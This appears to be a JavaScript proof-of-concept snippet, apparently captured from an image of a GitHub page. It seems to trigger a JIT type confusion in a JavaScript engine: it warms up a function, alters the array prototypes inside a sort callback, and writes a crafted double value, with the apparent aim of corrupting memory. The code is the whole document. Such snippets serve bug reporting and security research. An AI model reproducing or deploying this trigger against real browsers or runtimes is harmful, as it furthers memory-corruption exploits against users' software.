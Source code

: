 
function opt(arr, arr2) {
    arr2[0];

    arr[0] = 1.1;
    arr2.reverse();
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    arr.__proto__ = null;  
    delete arr[1];  

    let arr2 = [, {}];
    arr2.__proto__ = {};
    arr2.reverse = Array.prototype.reverse;

    for (let i = 0; i < 10000; i++) {
        opt(arr, arr2);
    }

    Array.prototype.sort.call(arr, () => {
        arr2.__proto__.__proto__ = arr;
    });

    opt(arr, arr2);
    print(arr[0]);
}

main();
